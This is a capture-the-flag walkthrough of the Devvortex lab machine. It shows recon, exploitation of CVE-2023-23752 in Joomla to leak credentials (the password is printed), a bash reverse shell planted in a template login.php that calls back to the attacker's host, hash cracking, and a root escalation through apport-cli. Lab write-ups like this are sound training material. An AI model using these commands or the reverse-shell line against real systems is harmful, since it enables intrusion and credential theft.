## Devvortex
### Description
**Author:** 7u9y     
**Difficulty:** Easy
**Machine IP Address:** 10.10.11.242

### Walkthrough
We were given only an IP address for the machine. When I opened the IP address in the browser, I discovered a website running with **devvortex.htb** as the domain URL. Subsequently, I added both the domain and IP address to the **/etc/hosts** file, enabling access to the website using the domain. The figure below illustrates the format of the IP address and domain in the **/etc/hosts** file.



Even though I knew the website port was opened, I still used nmap to check which ports were open and what services were running. Nmap showed that ports 22 and 80 were open, confirming there was a website on the server, just like when I tried to open it with the IP address.



The website seemed like a portfolio website. I looked around, checking everything on the site, and even found a form that seemed like it could be useful. But when I checked the form, it turned out it didn't actually do anything. 







In the end, the website did not give any hints about how to get into the server. I thought maybe the clues were in another directory. So, I used a tool called **gobuster** to search through different directories on the server. I used a wordlist from seclists and the report will be outputed as a file called "gobuster-dir.o".  
`sudo gobuster dir --url devvortex.htb -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -o gobuster-dir.o`



The results did not show any clues. Maybe, there is a subdomain that is related to the domain. To find the subdomain, we have two options: using subdomain enumeration or vhost enumeration with gobuster. When I tried using subdomain enumeration with the DNS command, the enumeration couldn't find a single subdomain related to the target domain. Consequently, I tried using the second option, which is vhost enumeration. "Vhost" is an abbreviated form of virtual hosting, a technique for hosting multiple domain names on a single server. We can include "append domain" to find the subdomain.



The command for searching virtual host is `sudo gobuster vhost -u devvortex.htb -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt --append-domain -o gobuster-vhost.o`  



After that, we can append the recently found subdomain to the **/etc/hosts** file.



Then, we can view the website pages and search for any features that may have vulnerabilities.



Let's conduct another search through the directories in the subdomain using gobuster.  
`sudo gobuster dir --url dev.devvortex.htb -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt -o gobuster-dir.o`



We can observe that numerous directories have been found. However, I came across an interesting directory here, named **administrator**. When we open this directory in the browser, the website indicates that it is running Joomla. 



Consequently, we can scan the website using joomscan with the command `sudo joomscan --url http:/dev.devvortex.htb/administrator/`. Now, we know the version of Joomla from the scan result.



Because we already know the version, we can search on Google for information about the exploit. I found a [website](https://vulncheck.com/blog/joomla-for-rce)  that discussed the exploit. Joomla has a code execution vulnerability documented in CVE-2023-23752. It has a proof of concept demonstrated by using this command: `curl -v http://dev.devvortex.htb/api/index.php/v1/config/application?public=true`.  I employed the exploit command on the machine using the **dev.devvortex.htb** subdomain.



Here, we discovered the username and password to log in to the administrator web page. The username is **lewis**, and the password is **P4ntherg0t1n5r3c0n##**. Now, we are inside the admin page.



When we go to `System > Administrator Templates > Atum Details and Files`, we can see the login PHP file that we just used for logging in. Because Joomla is vulnerable to code execution, we can run codes from the PHP file. Therefore, I added reverse shell codes `system('bash -c "bash -i >& /dev/tcp/[Your Machine IP Address]/1234 0>&1"');` to the **login.php** file and saved it using the **Save and Close** button.



Then, I set up netcat in listening state on port 1234, as indicated in the reverse shell code: `nc -lvnp 1234`.    



Now, we can access the template's login page at `http://dev.devvortex.htb/administrator/templates/atum/login.php` to gain access to the system.  



Next, we need to find the user flag. Although I found the user flag, we still need to leverage the permissions.



According to the CVE-2023-23752 exploit, it is mentioned that the credentials are for a MySQL account. Therefore, we can check the MySQL database for additional credentials. We will observe a database named **joomla**.



Next, we can search the user table for the credentials. Then, we found Logan as the new username with his password.  



Unfortunately, we cannot use the password as it is hashed. To crack it, we will use John the Ripper password cracker. First, I copy and paste Logan's hashed password into a file named hash.txt. Then, we can crack it using common wordlists. The result of the cracked password is saved in a file called cracked.txt.  
`sudo john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt > cracked.txt`



We can then log in using Logan's account and read the user flag.



For a better shell, we can SSH to the server using Logan's account and examine the sudo permissions to gather clues about obtaining a root shell.  



After obtaining information about the sudo permissions, the apport-cli binary can be run by all users. So, I searched for the exploit of this binary. I found a [website](https://github.com/canonical/apport/commit/e5f78cc89f1f5888b6a56b785dddcb0364c48ecb) about the exploit. that has the exploit. From that proof of concept (PoC), I created a report named crash.log, pressed V, and entered **!/bin/bash**. I was able to obtain root access.  



Then, I went to the root directory to obtain the root flag.



Finally, this machine has been pwned :slightly_smiling_face:
